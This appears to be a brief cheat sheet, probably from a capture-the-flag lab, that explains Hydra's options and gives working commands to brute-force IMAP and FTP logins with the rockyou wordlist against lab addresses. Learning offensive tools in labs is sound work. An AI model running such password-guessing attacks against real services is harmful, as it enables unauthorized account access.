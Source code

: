 # -l username 	# Provide the login name
# -P WordList.txt	# Specify the password list to use
# server service	# Set the server address and service to attack
# -s PORT   # 	Use in case of non-default service port number
# -V or -vV	  # Show the username and password combinations being tried
# -d	  #  Display debugging output if the verbose output is not helping


## IMAP 

     hydra -l lazie -P /usr/share/wordlists/rockyou.txt -f 10.10.236.254 imap -v

## FTP 
    hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -vV ftp://[MACHINE_IP]:10021
